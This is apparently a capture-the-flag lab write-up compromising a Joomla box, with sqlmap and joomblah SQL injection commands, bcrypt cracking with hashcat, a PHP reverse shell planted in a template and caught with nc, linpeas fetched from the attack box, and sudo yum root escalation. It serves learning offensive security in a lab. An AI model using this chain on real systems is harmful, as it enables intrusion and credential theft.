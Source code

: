 export ip=10.10.166.164

# recon and scanning

## nmap
- `sudo nmap -sC -sV -oA nmap/nmap.log --script="default and discovery" $ip --vv`

## cmseek
- `cmseek -u $ip`
  - outputs version 3.7.0

## sqlmap
- `sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`


# process
- searching the joomla version in searchsploit shows, it is vulnerable version and this exploit gives a sqlmap command to exploit joomla
  - `sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`
- while it was running I went back to the tryhackme page and there it was asking not to use sqlmap and use a python script instead. so I went ahead and search for the given CVE in the exploit shown by searchsploit and go a github repo with a python script to exploit it.
  - `python3 joomblah.py http://$ip`
- Got the hash and now using hashat to crack it. After looking at the [hashcat hash examples page](https://hashcat.net/wiki/doku.php?id=example_hashes), I was convinced that this is a bcyrpt hash.
  - `hashcat -m 3200 hash.txt rockyou.txt -S`
  - That cracked the password in around 10 mins.
- logged into $ip/administrator
- looked into the theme name from the source of the joomla home page.
- now in the admin section of the page, go to the template customize page and upload a new file into the root dir of theme.
  - the path of all the css files for this current theme is evident after looking at the source of the joomla home page.
    - $ip/templates/protostar/
  - create an empty file with any name(note down this name) and add the content of the [reverse shell you downloaded](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) in here. Change the ip with your attack box's ip and any port
  - now start an `nc` listener with the port you added in the reverseshell
    - `nc -lnvp 4444`
  - access the uploaded reverseshell using the file name you gave in the `add a new file page` under templates
    - MY URL: `http://$ip/templates/protostar/sh.php`
  - ran linpeas.sh after starting an http server on the host and downloading the linpeas.sh file from the reverseshell into `/dev/shm/`
  - this revealed a password using which I tried to loginto jjames's account via SSH and I got it.
  - The home dir had the second flag.
  - tried to see what all commands can be used with sudo and found we can use yum with sudo
    - `sudo -l`
  - so search for [gtfobins](https://gtfobins.github.io/gtfobins/yum/#sudo) to see if we can somehow spawn a root shell and found couple of ways one which which worked.
  - in the home dir or root our last flag was waiting... ;)